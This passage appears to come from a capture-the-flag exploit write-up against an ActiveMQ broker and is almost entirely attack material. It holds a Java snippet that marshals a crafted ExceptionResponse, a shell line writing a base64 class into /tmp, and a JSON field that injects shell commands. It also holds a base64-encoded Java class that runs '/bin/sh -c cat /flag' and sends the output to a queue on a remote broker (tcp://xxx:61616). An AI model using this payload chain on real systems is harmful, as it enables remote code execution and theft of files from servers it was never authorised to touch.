RHcGhkbUV2YkdGdVp5OVRkSEpwYm1jN0tVeHFZWFpoZUM5cWJYTXZVWFZsZFdVN0FRQU9ZM0psWVhSbFVISnZaSFZqWlhJQkFEUW9UR3BoZG1GNEwycHRjeTlFWlhOMGFXNWhkR2x2YmpzcFRHcGhkbUY0TDJwdGN5OU5aWE56WVdkbFVISnZaSFZqWlhJN0FRQUZjM1JoY25RQkFCVW9LVXhxWVhaaEwyeGhibWN2VUhKdlkyVnpjenNCQUJGcVlYWmhMMnhoYm1jdlVISnZZMlZ6Y3dFQURtZGxkRWx1Y0hWMFUzUnlaV0Z0QVFBWEtDbE1hbUYyWVM5cGJ5OUpibkIxZEZOMGNtVmhiVHNCQUJnb1RHcGhkbUV2YVc4dlNXNXdkWFJUZEhKbFlXMDdLVllCQUF4MWMyVkVaV3hwYldsMFpYSUJBQ2NvVEdwaGRtRXZiR0Z1Wnk5VGRISnBibWM3S1V4cVlYWmhMM1YwYVd3dlUyTmhibTVsY2pzQkFBUnVaWGgwQVFBVUtDbE1hbUYyWVM5c1lXNW5MMU4wY21sdVp6c0JBQWhuWlhSQ2VYUmxjd0VBQkNncFcwSUJBQVVvVzBJcFZnRUFFV055WldGMFpWUmxlSFJOWlhOellXZGxBUUFaS0NsTWFtRjJZWGd2YW0xekwxUmxlSFJOWlhOellXZGxPd0VBQjNObGRGUmxlSFFCQUJscVlYWmhlQzlxYlhNdlRXVnpjMkZuWlZCeWIyUjFZMlZ5QVFBRWMyVnVaQUVBRUdwaGRtRXZiR0Z1Wnk5VGVYTjBaVzBCQUFOdmRYUUJBQlZNYW1GMllTOXBieTlRY21sdWRGTjBjbVZoYlRzQkFCTnFZWFpoTDJsdkwxQnlhVzUwVTNSeVpXRnRBUUFIY0hKcGJuUnNiZ0VBQldOc2IzTmxBUUFPWTNKbFlYUmxRMjl1YzNWdFpYSUJBRFFvVEdwaGRtRjRMMnB0Y3k5RVpYTjBhVzVoZEdsdmJqc3BUR3BoZG1GNEwycHRjeTlOWlhOellXZGxRMjl1YzNWdFpYSTdBUUFaYW1GMllYZ3ZhbTF6TDAxbGMzTmhaMlZEYjI1emRXMWxjZ0VBRW5ObGRFMWxjM05oWjJWTWFYTjBaVzVsY2dFQUhpaE1hbUYyWVhndmFtMXpMMDFsYzNOaFoyVk1hWE4wWlc1bGNqc3BWZ0VBQm1Gd2NHVnVaQUVBTFNoTWFtRjJZUzlzWVc1bkwxTjBjbWx1WnpzcFRHcGhkbUV2YkdGdVp5OVRkSEpwYm1kQ2RXbHNaR1Z5T3dFQUIyZGxkRlJsZUhRQkFBaDBiMU4wY21sdVp3RUFEM0J5YVc1MFUzUmhZMnRVY21GalpRQWhBQ1VBTVFBQkFESUFBQUFGQUFFQU13QTBBQUVBTlFBQUFDOEFBUUFCQUFBQUJTcTNBQUd4QUFBQUFnQTJBQUFBQmdBQkFBQUFCUUEzQUFBQURBQUJBQUFBQlFBNEFEa0FBQUFDQURvQU5BQUNBRFVBQUFGZUFBVUFDZ0FBQUpxN0FBSlpFZ08zQUFSTUs3a0FCUUVBVFN3REJMa0FCd01BVGkwU0NMa0FDUUlBT2dRdEdRUzVBQW9DQURvRkJyMEFDMWtERWd4VFdRUVNEVk5aQlJJT1V6b0d1d0FQV2JzQUVGa1pCcmNBRWJZQUVyWUFFN2NBRkJJVnRnQVd0Z0FYdGdBWU9nZTdBQXRaR1FlM0FCazZDQzI1QUJvQkFEb0pHUWtaQ0xrQUd3SUFHUVVaQ2JrQUhBSUFzZ0FkRWg2MkFCOHN1UUFnQVFDeEFBQUFBZ0EyQUFBQVJnQVJBQUFBQ0FBS0FBa0FFUUFLQUJvQUN3QWtBQXdBTGdBTkFFTUFEZ0JiQUE4QVhnQVFBR0VBRVFCbUFCSUFjUUFUQUhrQUZBQ0NBQlVBaXdBV0FKTUFGd0NaQUJnQU53QUFBR1lBQ2dBQUFKb0FPQUE1QUFBQUNnQ1FBRHNBUEFBQkFCRUFpUUE5QUQ0QUFnQWFBSUFBUHdCQUFBTUFKQUIyQUVFQVFnQUVBQzRBYkFCREFFUUFCUUJEQUZjQVJRQkdBQVlBWmdBMEFFY0FTQUFIQUhFQUtRQkpBRW9BQ0FCNUFDRUFTd0JNQUFrQVRRQUFBQVFBQVFBdkFBSUFUZ0EwQUFJQU5RQUFBTFVBQXdBR0FBQUFQYnNBQWxrU0liY0FCRXdydVFBRkFRQk5MQU1FdVFBSEF3Qk9MUklJdVFBSkFnQTZCQzBaQkxrQUlnSUFPZ1VaQlNxNUFDTUNBQ3k1QUNRQkFMRUFBQUFDQURZQUFBQWlBQWdBQUFBYkFBb0FIQUFSQUIwQUdnQWVBQ1FBSHdBdUFDQUFOZ0FoQUR3QUlnQTNBQUFBUGdBR0FBQUFQUUE0QURrQUFBQUtBRE1BT3dBOEFBRUFFUUFzQUQwQVBnQUNBQm9BSXdCUEFFQUFBd0FrQUJrQVFRQkNBQVFBTGdBUEFGQUFVUUFGQUUwQUFBQUVBQUVBTHdBSkFGSUFVd0FDQURVQUFBQkpBQUlBQWdBQUFBMjdBQ1ZadHdBbVRDdTNBQ2V4QUFBQUFnQTJBQUFBRGdBREFBQUFKZ0FJQUNjQURBQW9BRGNBQUFBV0FBSUFBQUFOQUZRQVJnQUFBQWdBQlFCU0FEa0FBUUJOQUFBQUJBQUJBQzhBQVFCVkFGWUFBUUExQUFBQWpRQURBQU1BQUFBcXNnQWR1d0FvV2JjQUtSSXF0Z0FySzhBQUxMa0FMUUVBdGdBcnRnQXV0Z0FmcHdBSVRTeTJBREN4QUFFQUFBQWhBQ1FBTHdBREFEWUFBQUFXQUFVQUFBQXRBQ0VBTUFBa0FDNEFKUUF2QUNrQU1RQTNBQUFBSUFBREFDVUFCQUJYQUZnQUFnQUFBQ29BT0FBNUFBQUFBQUFxQUVrQVdRQUJBRm9BQUFBSEFBSmtCd0F2QkFBQkFGc0FBQUFDQUZ3PSIsInl2NjZ2Z0FBQURRQXdRb0FNUUJkQndCZUNBQmZDZ0FDQUdBTEFHRUFZZ2NBWXdzQVpBQmxDQUJtQ3dBR0FHY0xBQVlBYUFjQWFRZ0FhZ2dBYXdnQWJBY0FiUWNBYmdvQUVBQnZDZ0FRQUhBS0FIRUFjZ29BRHdCekNBQjBDZ0FQQUhVS0FBOEFkZ29BQ3dCM0NnQUxBSGdMQUFZQWVRc0FMQUI2Q3dCN0FId0pBSDBBZmdnQWZ3b0FnQUNCQ3dCa0FJSUlBSU1MQUFZQWhBc0FoUUNHQ3dCa0FJY0hBSWdLQUNVQVhRb0FKUUNKQndDS0NnQW9BRjBJQUlzS0FDZ0FqQWNBalFzQUxBQ09DZ0FvQUk4SEFKQUtBQzhBa1FjQWtnY0Frd0VBQmp4cGJtbDBQZ0VBQXlncFZnRUFCRU52WkdVQkFBOU1hVzVsVG5WdFltVnlWR0ZpYkdVQkFCSk1iMk5oYkZaaGNtbGhZbXhsVkdGaWJHVUJBQVIwYUdsekFRQUdURTFoYVc0N0FRQUhjSFZpYkdsemFBRUFCMlpoWTNSdmNua0JBQjFNYW1GMllYZ3ZhbTF6TDBOdmJtNWxZM1JwYjI1R1lXTjBiM0o1T3dFQUNtTnZibTVsWTNScGIyNEJBQlpNYW1GMllYZ3ZhbTF6TDBOdmJtNWxZM1JwYjI0N0FRQUtjSFZpVTJWemMybHZiZ0VBRTB4cVlYWmhlQzlxYlhNdlUyVnpjMmx2YmpzQkFBVnhkV1YxWlFFQUVVeHFZWFpoZUM5cWJYTXZVWFZsZFdVN0FRQUpjSFZpYkdsemFHVnlBUUFiVEdwaGRtRjRMMnB0Y3k5TlpYTnpZV2RsVUhKdlpIVmpaWEk3QVFBRFkyMWtBUUFUVzB4cVlYWmhMMnhoYm1jdlUzUnlhVzVuT3dFQUFtSnpBUUFDVzBJQkFBZHRaWE56WVdkbEFRQVNUR3BoZG1FdmJHRnVaeTlUZEhKcGJtYzdBUUFEYlhObkFRQVhUR3BoZG1GNEwycHRjeTlVWlhoMFRXVnpjMkZuWlRzQkFBcEZlR05sY0hScGIyNXpBUUFIWTI5dWMzVnRaUUVBQ25OMVlsTmxjM05wYjI0QkFBcHpkV0p6WTNKcFltVnlBUUFiVEdwaGRtRjRMMnB0Y3k5TlpYTnpZV2RsUTI5dWMzVnRaWEk3QVFBRWJXRnBiZ0VBRmloYlRHcGhkbUV2YkdGdVp5OVRkSEpwYm1jN0tWWUJBQVJoY21kekFRQUpiMjVOWlhOellXZGxBUUFXS0V4cVlYWmhlQzlxYlhNdlRXVnpjMkZuWlRzcFZnRUFBV1VCQUJWTWFtRjJZUzlzWVc1bkwwVjRZMlZ3ZEdsdmJqc0JBQk5NYW1GMllYZ3ZhbTF6TDAxbGMzTmhaMlU3QVFBTlUzUmhZMnROWVhCVVlXSnNaUUVBQ2xOdmRYSmpaVVpwYkdVQkFBbE5ZV2x1TG1waGRtRU1BRE1BTkFFQUxXOXlaeTloY0dGamFHVXZZV04wYVhabGJYRXZRV04wYVhabFRWRkRiMjV1WldOMGFXOXVSbUZqZEc5eWVRRUFGWFJqY0Rvdkx6RXlOeTR3TGpBdU1UbzJNVFl4Tmd3QU13Q1VCd0NWREFDV0FKY0JBQkZxWVhaaGVDOXFiWE12VTJWemMybHZiZ2NBbUF3QW1RQ2FBUUFKWm14aFozRjFaWFZsREFDYkFKd01BSjBBbmdFQUVHcGhkbUV2YkdGdVp5OVRkSEpwYm1jQkFBY3ZZbWx1TDNOb0FRQUNMV01CQUFsallYUWdMMlpzWVdjQkFCRnFZWFpoTDNWMGFXd3ZVMk5oYm01bGNnRUFHR3BoZG1FdmJHRnVaeTlRY205alpYTnpRblZwYkdSbGNnd0FNd0JUREFDZkFLQUhBS0VNQUtJQW93d0FNd0NrQVFBQ1hFRU1BS1VBcGd3QXB3Q29EQUNwQUtvTUFETUFxd3dBckFDdERBQ3VBSlFIQUs4TUFMQUFWZ2NBc1F3QXNnQ3pBUUFRY0hWaWJHbHphQ0JtYVc1cGMyaGxaQWNBdEF3QXRRQ1VEQUMyQURRQkFBOTBZM0E2THk5NGVIZzZOakUyTVRZTUFMY0F1QWNBdVF3QXVnQzdEQUNmQURRQkFBUk5ZV2x1REFBNkFEUUJBQmRxWVhaaEwyeGhibWN2VTNSeWFXNW5RblZwYkdSbGNnRUFDVkpsWTJWcGRtVmtJQXdBdkFDOUFRQVZhbUYyWVhndmFtMXpMMVJsZUhSTlpYTnpZV2RsREFDK0FLZ01BTDhBcUFFQUUycGhkbUV2YkdGdVp5OUZlR05sY0hScGIyNE1BTUFBTkFFQUVHcGhkbUV2YkdGdVp5OVBZbXBsWTNRQkFCbHFZWFpoZUM5cWJYTXZUV1Z6YzJGblpVeHBjM1JsYm1WeUFRQVZLRXhxWVhaaEwyeGhibWN2VTNSeWFXNW5PeWxXQVFBYmFtRjJZWGd2YW0xekwwTnZibTVsWTNScGIyNUdZV04wYjNKNUFRQVFZM0psWVhSbFEyOXVibVZqZEdsdmJnRUFHQ2dwVEdwaGRtRjRMMnB0Y3k5RGIyNXVaV04wYVc5dU93RUFGR3BoZG1GNEwycHRjeTlEYjI1dVpXTjBhVzl1QVFBTlkzSmxZWFJsVTJWemMybHZiZ0VBRnloYVNTbE1hbUYyWVhndmFtMXpMMU5sYzNOcGIyNDdBUUFMWTNKbFlYUmxVWFZsZFdVQkFDVW9UR3BoZG1FdmJHRnVaeTlUZEhKcGJtYzdLVXhxWVhaaGVDOXFiWE12VVhWbGRXVTdBUUFPWTNKbFlYUmxVSEp2WkhWalpYSUJBRFFvVEdwaGRtRjRMMnB0Y3k5RVpYTjBhVzVoZEdsdmJqc3BUR3BoZG1GNEwycHRjeTlOWlhOellXZGxVSEp2WkhWalpYSTdBUUFGYzNSaGNuUUJBQlVvS1V4cVlYWmhMMnhoYm1jdlVISnZZMlZ6Y3pzQkFCRnFZWFpoTDJ4aGJtY3ZVSEp2WTJWemN3RUFEbWRsZEVsdWNIVjBVM1J5WldGdEFRQVhLQ2xNYW1GMllTOXBieTlKYm5CMWRGTjBjbVZoYlRzQkFCZ29UR3BoZG1FdmFXOHZTVzV3ZFhSVGRISmxZVzA3S1ZZQkFBeDFjMlZFWld4cGJXbDBaWElCQUNjb1RHcGhkbUV2YkdGdVp5OVRkSEpwYm1jN0tVeHFZWFpoTDNWMGFXd3ZVMk5oYm01bGNqc0JBQVJ1WlhoMEFRQVVLQ2xNYW1GMllTOXNZVzVuTDFOMGNtbHVaenNCQUFoblpYUkNlWFJsY3dFQUJDZ3BXMElCQUFVb1cwSXBWZ0VBRVdOeVpXRjBaVlJsZUhSTlpYTnpZV2RsQVFBWktDbE1hbUYyWVhndmFtMXpMMVJsZUhSTlpYTnpZV2RsT3dFQUIzTmxkRlJsZUhRQkFCbHFZWFpoZUM5cWJYTXZUV1Z6YzJGblpWQnliMlIxWTJWeUFRQUVjMlZ1WkFFQUVHcGhkbUV2YkdGdVp5OVRlWE4wWlcwQkFBTnZkWFFCQUJWTWFtRjJZUzlwYnk5UWNtbHVkRk4wY21WaGJUc0JBQk5xWVhaaEwybHZMMUJ5YVc1MFUzUnlaV0Z0QVFBSGNISnBiblJzYmdFQUJXTnNiM05sQVFBT1kzSmxZWFJsUTI5dWMzVnRaWElCQURRb1RHcGhkbUY0TDJwdGN5OUVaWE4wYVc1aGRHbHZianNwVEdwaGRtRjRMMnB0Y3k5TlpYTnpZV2RsUTI5dWMzVnRaWEk3QVFBWmFtRjJZWGd2YW0xekwwMWxjM05oWjJWRGIyNXpkVzFsY2dFQUVuTmxkRTFsYzNOaFoyVk1hWE4wWlc1bGNnRUFIaWhNYW1GMllYZ3ZhbTF6TDAxbGMzTmhaMlZNYVhOMFpXNWxjanNwVmdFQUJtRndjR1Z1WkFFQUxTaE1hbUYyWVM5c1lXNW5MMU4wY21sdVp6c3BUR3BoZG1FdmJHRnVaeTlUZEhKcGJtZENkV2xzWkdWeU93RUFCMmRsZEZSbGVIUUJBQWgwYjFOMGNtbHVad0VBRDNCeWFXNTBVM1JoWTJ0VWNtRmpaUUFoQUNVQU1RQUJBRElBQUFBRkFBRUFNd0EwQUFFQU5RQUFBQzhBQVFBQkFBQUFCU3EzQUFHeEFBQUFBZ0EyQUFBQUJnQUJBQUFBQlFBM0FBQUFEQUFCQUFBQUJRQTRBRGtBQUFBQ0FEb0FOQUFDQURVQUFBRmVBQVVBQ2dBQUFKcTdBQUpaRWdPM0FBUk1LN2tBQlFFQVRTd0RCTGtBQndNQVRpMFNDTGtBQ1FJQU9nUXRHUVM1QUFvQ0FEb0ZCcjBBQzFrREVneFRXUVFTRFZOWkJSSU9Vem9HdXdBUFdic0FFRmtaQnJjQUViWUFFcllBRTdjQUZCSVZ0Z0FXdGdBWHRnQVlPZ2U3QUF0WkdRZTNBQms2Q0MyNUFCb0JBRG9KR1FrWkNMa0FHd0lBR1FVWkNia0FIQUlBc2dBZEVoNjJBQjhzdVFBZ0FRQ3hBQUFBQWdBMkFBQUFSZ0FSQUFBQUNBQUtBQWtBRVFBS0FCb0FDd0FrQUF3QUxnQU5BRU1BRGdCYkFBOEFYZ0FRQUdFQUVRQm1BQklBY1FBVEFIa0FGQUNDQUJVQWl3QVdBSk1BRndDWkFCZ0FOd0FBQUdZQUNnQUFBSm9BT0FBNUFBQUFDZ0NRQURzQVBBQUJBQkVBaVFBOUFENEFBZ0FhQUlBQVB3QkFBQU1BSkFCMkFFRUFRZ0FFQUM0QWJBQkRBRVFBQlFCREFGY0FSUUJHQUFZQVpnQTBBRWNBU0FBSEFIRUFLUUJKQUVvQUNBQjVBQ0VBU3dCTUFBa0FUUUFBQUFRQUFRQXZBQUlBVGdBMEFBSUFOUUFBQUxVQUF3QUdBQUFBUGJzQUFsa1NJYmNBQkV3cnVRQUZBUUJOTEFNRXVRQUhBd0JPTFJJSXVRQUpBZ0E2QkMwWkJMa0FJZ0lBT2dVWkJTcTVBQ01DQUN5NUFDUUJBTEVBQUFBQ0FEWUFBQUFpQUFnQUFBQWJBQW9BSEFBUkFCMEFHZ0FlQUNRQUh3QXVBQ0FBTmdBaEFEd0FJZ0EzQUFBQVBnQUdBQUFBUFFBNEFEa0FBQUFLQURNQU93QThBQUVBRVFBc0FEMEFQZ0FDQUJvQUl3QlBBRUFBQXdBa0FCa0FRUUJDQUFRQUxnQVBBRkFBVVFBRkFFMEFBQUFFQUFFQUx3QUpBRklBVXdBQ0FEVUFBQUJKQUFJQUFnQUFBQTI3QUNWWnR3QW1UQ3UzQUNleEFBQUFBZ0EyQUFBQURnQURBQUFBSmdBSUFDY0FEQUFvQURjQUFBQVdBQUlBQUFBTkFGUUFSZ0FBQUFnQUJRQlNBRGtBQVFCTkFBQUFCQUFCQUM4QUFRQlZBRllBQVFBMUFBQUFqUUFEQUFNQUFBQXFzZ0FkdXdBb1diY0FLUklxdGdBcks4QUFMTGtBTFFFQXRnQXJ0Z0F1dGdBZnB3QUlUU3kyQURDeEFBRUFBQUFoQUNRQUx3QURBRFlBQUFBV0FBVUFBQUF0QUNFQU1BQWtBQzRBSlFBdkFDa0FNUUEzQUFBQUlBQURBQ1VBQkFCWEFGZ0FBZ0FBQUNvQU9BQTVBQUFBQUFBcUFFa0FXUUFCQUZvQUFBQUhBQUprQndBdkJBQUJBRnNBQUFBQ0FGdz0iXX0=");
    ExceptionResponse response = new ExceptionResponse(obj);
   this.wireFormat.marshal(response, this.dataOut);
    this.dataOut.flush();
}
```

```java
echo 编译好的class的base64 > /tmp/nmlgb.txt
```

```java
{"lpcAllCom":["cmd","cmd"]}
```

```java
yv66vgAAADQAwQoAMQBdBwBeCABfCgACAGALAGEAYgcAYwsAZABlCABmCwAGAGcLAAYAaAcAaQgAaggAawgAbAcAbQcAbgoAEABvCgAQAHAKAHEAcgoADwBzCAB0CgAPAHUKAA8AdgoACwB3CgALAHgLAAYAeQsALAB6CwB7AHwJAH0AfggAfwoAgACBCwBkAIIIAIMLAAYAhAsAhQCGCwBkAIcHAIgKACUAXQoAJQCJBwCKCgAoAF0IAIsKACgAjAcAjQsALACOCgAoAI8HAJAKAC8AkQcAkgcAkwEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBAAR0aGlzAQAGTE1haW47AQAHcHVibGlzaAEAB2ZhY3RvcnkBAB1MamF2YXgvam1zL0Nvbm5lY3Rpb25GYWN0b3J5OwEACmNvbm5lY3Rpb24BABZMamF2YXgvam1zL0Nvbm5lY3Rpb247AQAKcHViU2Vzc2lvbgEAE0xqYXZheC9qbXMvU2Vzc2lvbjsBAAVxdWV1ZQEAEUxqYXZheC9qbXMvUXVldWU7AQAJcHVibGlzaGVyAQAbTGphdmF4L2ptcy9NZXNzYWdlUHJvZHVjZXI7AQADY21kAQATW0xqYXZhL2xhbmcvU3RyaW5nOwEAAmJzAQACW0IBAAdtZXNzYWdlAQASTGphdmEvbGFuZy9TdHJpbmc7AQADbXNnAQAXTGphdmF4L2ptcy9UZXh0TWVzc2FnZTsBAApFeGNlcHRpb25zAQAHY29uc3VtZQEACnN1YlNlc3Npb24BAApzdWJzY3JpYmVyAQAbTGphdmF4L2ptcy9NZXNzYWdlQ29uc3VtZXI7AQAEbWFpbgEAFihbTGphdmEvbGFuZy9TdHJpbmc7KVYBAARhcmdzAQAJb25NZXNzYWdlAQAWKExqYXZheC9qbXMvTWVzc2FnZTspVgEAAWUBABVMamF2YS9sYW5nL0V4Y2VwdGlvbjsBABNMamF2YXgvam1zL01lc3NhZ2U7AQANU3RhY2tNYXBUYWJsZQEAClNvdXJjZUZpbGUBAAlNYWluLmphdmEMADMANAEALW9yZy9hcGFjaGUvYWN0aXZlbXEvQWN0aXZlTVFDb25uZWN0aW9uRmFjdG9yeQEAFXRjcDovLzEyNy4wLjAuMTo2MTYxNgwAMwCUBwCVDACWAJcBABFqYXZheC9qbXMvU2Vzc2lvbgcAmAwAmQCaAQAJZmxhZ3F1ZXVlDACbAJwMAJ0AngEAEGphdmEvbGFuZy9TdHJpbmcBAAcvYmluL3NoAQACLWMBAAljYXQgL2ZsYWcBABFqYXZhL3V0aWwvU2Nhbm5lcgEAGGphdmEvbGFuZy9Qcm9jZXNzQnVpbGRlcgwAMwBTDACfAKAHAKEMAKIAowwAMwCkAQACXEEMAKUApgwApwCoDACpAKoMADMAqwwArACtDACuAJQHAK8MALAAVgcAsQwAsgCzAQAQcHVibGlzaCBmaW5pc2hlZAcAtAwAtQCUDAC2ADQBAA90Y3A6Ly94eHg6NjE2MTYMALcAuAcAuQwAugC7DACfADQBAARNYWluDAA6ADQBABdqYXZhL2xhbmcvU3RyaW5nQnVpbGRlcgEACVJlY2VpdmVkIAwAvAC9AQAVamF2YXgvam1zL1RleHRNZXNzYWdlDAC+AKgMAL8AqAEAE2phdmEvbGFuZy9FeGNlcHRpb24MAMAANAEAEGphdmEvbGFuZy9PYmplY3QBABlqYXZheC9qbXMvTWVzc2FnZUxpc3RlbmVyAQAVKExqYXZhL2xhbmcvU3RyaW5nOylWAQAbamF2YXgvam1zL0Nvbm5lY3Rpb25GYWN0b3J5AQAQY3JlYXRlQ29ubmVjdGlvbgEAGCgpTGphdmF4L2ptcy9Db25uZWN0aW9uOwEAFGphdmF4L2ptcy9Db25uZWN0aW9uAQANY3JlYXRlU2Vzc2lvbgEAFyhaSSlMamF2YXgvam1zL1Nlc3Npb247AQALY3JlYXRlUXVldWUBACUoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZheC9qbXMvUXVldWU7AQAOY3JlYXRlUHJvZHVjZXIBADQoTGphdmF4L2ptcy9EZXN0aW5hdGlvbjspTGphdmF4L2ptcy9NZXNzYWdlUHJvZHVjZXI7AQAFc3RhcnQBABUoKUxqYXZhL2xhbmcvUHJvY2VzczsBABFqYXZhL2xhbmcvUHJvY2VzcwEADmdldElucHV0U3RyZWFtAQAXKClMamF2YS9pby9JbnB1dFN0cmVhbTsBABgoTGphdmEvaW8vSW5wdXRTdHJlYW07KVYBAAx1c2VEZWxpbWl0ZXIBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL3V0aWwvU2Nhbm5lcjsBAARuZXh0AQAUKClMamF2YS9sYW5nL1N0cmluZzsBAAhnZXRCeXRlcwEABCgpW0IBAAUoW0IpVgEAEWNyZWF0ZVRleHRNZXNzYWdlAQAZKClMamF2YXgvam1zL1RleHRNZXNzYWdlOwEAB3NldFRleHQBABlqYXZheC9qbXMvTWVzc2FnZVByb2R1Y2VyAQAEc2VuZAEAEGphdmEvbGFuZy9TeXN0ZW0BAANvdXQBABVMamF2YS9pby9QcmludFN0cmVhbTsBABNqYXZhL2lvL1ByaW50U3RyZWFtAQAHcHJpbnRsbgEABWNsb3NlAQAOY3JlYXRlQ29uc3VtZXIBADQoTGphdmF4L2ptcy9EZXN0aW5hdGlvbjspTGphdmF4L2ptcy9NZXNzYWdlQ29uc3VtZXI7AQAZamF2YXgvam1zL01lc3NhZ2VDb25zdW1lcgEAEnNldE1lc3NhZ2VMaXN0ZW5lcgEAHihMamF2YXgvam1zL01lc3NhZ2VMaXN0ZW5lcjspVgEABmFwcGVuZAEALShMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9TdHJpbmdCdWlsZGVyOwEAB2dldFRleHQBAAh0b1N0cmluZwEAD3ByaW50U3RhY2tUcmFjZQAhACUAMQABADIAAAAFAAEAMwA0AAEANQAAAC8AAQABAAAABSq3AAGxAAAAAgA2AAAABgABAAAABQA3AAAADAABAAAABQA4ADkAAAACADoANAACADUAAAFeAAUACgAAAJq7AAJZEgO3AARMK7kABQEATSwDBLkABwMATi0SCLkACQIAOgQtGQS5AAoCADoFBr0AC1kDEgxTWQQSDVNZBRIOUzoGuwAPWbsAEFkZBrcAEbYAErYAE7cAFBIVtgAWtgAXtgAYOge7AAtZGQe3ABk6CC25ABoBADoJGQkZCLkAGwIAGQUZCbkAHAIAsgAdEh62AB8suQAgAQCxAAAAAgA2AAAARgARAAAACAAKAAkAEQAKABoACwAkAAwALgANAEMADgBbAA8AXgAQAGEAEQBmABIAcQATAHkAFACCABUAiwAWAJMAFwCZABgANwAAAGYACgAAAJoAOAA5AAAACgCQADsAPAABABEAiQA9AD4AAgAaAIAAPwBAAAMAJAB2AEEAQgAEAC4AbABDAEQABQBDAFcARQBGAAYAZgA0AEcASAAHAHEAKQBJAEoACAB5ACEASwBMAAkATQAAAAQAAQAvAAIATgA0AAIANQAAALUAAwAGAAAAPbsAAlkSIbcABEwruQAFAQBNLAMEuQAHAwBOLRIIuQAJAgA6BC0ZBLkAIgIAOgUZBSq5ACMCACy5ACQBALEAAAACADYAAAAiAAgAAAAbAAoAHAARAB0AGgAeACQAHwAuACAANgAhADwAIgA3AAAAPgAGAAAAPQA4ADkAAAAKADMAOwA8AAEAEQAsAD0APgACABoAIwBPAEAAAwAkABkAQQBCAAQALgAPAFAAUQAFAE0AAAAEAAEALwAJAFIAUwACADUAAABJAAIAAgAAAA27ACVZtwAmTCu3ACexAAAAAgA2AAAADgADAAAAJgAIACcADAAoADcAAAAWAAIAAAANAFQARgAAAAgABQBSADkAAQBNAAAABAABAC8AAQBVAFYAAQA1AAAAjQADAAMAAAAqsgAduwAoWbcAKRIqtgArK8AALLkALQEAtgArtgAutgAfpwAITSy2ADCxAAEAAAAhACQALwADADYAAAAWAAUAAAAtACEAMAAkAC4AJQAvACkAMQA3AAAAIAADACUABABXAFgAAgAAACoAOAA5AAAAAAAqAEkAWQABAFoAAAAHAAJkBwAvBAABAFsAAAACAFw=
```

```java
{"lpcAllCom":["echo yv66vgAAADQAwQoAMQBdBwBeCABfCgACAGALAGEAYgcAYwsAZABlCABmCwAGAGcLAAYAaAcAaQgAaggAawgAbAcAbQcAbgoAEABvCgAQAHAKAHEAcgoADwBzCAB0CgAPAHUKAA8AdgoACwB3CgALAHgLAAYAeQsALAB6CwB7AHwJAH0AfggAfwoAgACBCwBkAIIIAIMLAAYAhAsAhQCGCwBkAIcHAIgKACUAXQoAJQCJBwCKCgAoAF0IAIsKACgAjAcAjQsALACOCgAoAI8HAJAKAC8AkQcAkgcAkwEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBAAR0aGlzAQAGTE1haW47AQAHcHVibGlzaAEAB2ZhY3RvcnkBAB1MamF2YXgvam1zL0Nvbm5lY3Rpb25GYWN0b3J5OwEACmNvbm5lY3Rpb24BABZMamF2YXgvam1zL0Nvbm5lY3Rpb247AQAKcHViU2Vzc2lvbgEAE0xqYXZheC9qbXMvU2Vzc2lvbjsBAAVxdWV1ZQEAEUxqYXZheC9qbXMvUXVldWU7AQAJcHVibGlzaGVyAQAbTGphdmF4L2ptcy9NZXNzYWdlUHJvZHVjZXI7AQADY21kAQATW0xqYXZhL2xhbmcvU3RyaW5nOwEAAmJzAQACW0IBAAdtZXNzYWdlAQASTGphdmEvbGFuZy9TdHJpbmc7AQADbXNnAQAXTGphdmF4L2ptcy9UZXh0TWVzc2FnZTsBAApFeGNlcHRpb25zAQAHY29uc3VtZQEACnN1YlNlc3Npb24BAApzdWJzY3JpYmVyAQAbTGphdmF4L2ptcy9NZXNzYWdlQ29uc3VtZXI7AQAEbWFpbgEAFihbTGphdmEvbGFuZy9TdHJpbmc7KVYBAARhcmdzAQAJb25NZXNzYWdlAQAWKExqYXZheC9qbXMvTWVzc2FnZTspVgEAAWUBABVMamF2YS9sYW5nL0V4Y2VwdGlvbjsBABNMamF2YXgvam1zL01lc3NhZ2U7AQANU3RhY2tNYXBUYWJsZQEAClNvdXJjZUZpbGUBAAlNYWluLmphdmEMADMANAEALW9yZy9hcGFjaGUvYWN0aXZlbXEvQWN0aXZlTVFDb25uZWN0aW9uRmFjdG9yeQEAFXRjcDovLzEyNy4wLjAuMTo2MTYxNgwAMwCUBwCVDACWAJcBABFqYXZheC9qbXMvU2Vzc2lvbgcAmAwAmQCaAQAJZmxhZ3F1ZXVlDACbAJwMAJ0AngEAEGphdmEvbGFuZy9TdHJpbmcBAAcvYmluL3NoAQACLWMBAAljYXQgL2ZsYWcBABFqYXZhL3V0aWwvU2Nhbm5lcgEAGGphdmEvbGFuZy9Qcm9jZXNzQnVpbGRlcgwAMwBTDACfAKAHAKEMAKIAowwAMwCkAQACXEEMAKUApgwApwCoDACpAKoMADMAqwwArACtDACuAJQHAK8MALAAVgcAsQwAsgCzAQAQcHVibGlzaCBmaW5pc2hlZAcAtAwAtQCUDAC2ADQBAA90Y3A6Ly94eHg6NjE2MTYMALcAuAcAuQwAugC7DACfADQBAARNYWluDAA6ADQBABdqYXZhL2xhbmcvU3RyaW5nQnVpbGRlcgEACVJlY2VpdmVkIAwAvAC9AQAVamF2YXgvam1zL1RleHRNZXNzYWdlDAC+AKgMAL8AqAEAE2phdmEvbGFuZy9FeGNlcHRpb24MAMAANAEAEGphdmEvbGFuZy9PYmplY3QBABlqYXZheC9qbXMvTWVzc2FnZUxpc3RlbmVyAQAVKExqYXZhL2xhbmcvU3RyaW5nOylWAQAbamF2YXgvam1zL0Nvbm5lY3Rpb25GYWN0b3J5AQAQY3JlYXRlQ29ubmVjdGlvbgEAGCgpTGphdmF4L2ptcy9Db25uZWN0aW9uOwEAFGphdmF4L2ptcy9Db25uZWN0aW9uAQANY3JlYXRlU2Vzc2lvbgEAFyhaSSlMamF2YXgvam1zL1Nlc3Npb247AQALY3JlYXRlUXVldWUBACUoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZheC9qbXMvUXVldWU7AQAOY3JlYXRlUHJvZHVjZXIBADQoTGphdmF4L2ptcy9EZXN0aW5hdGlvbjspTGphdmF4L2ptcy9NZXNzYWdlUHJv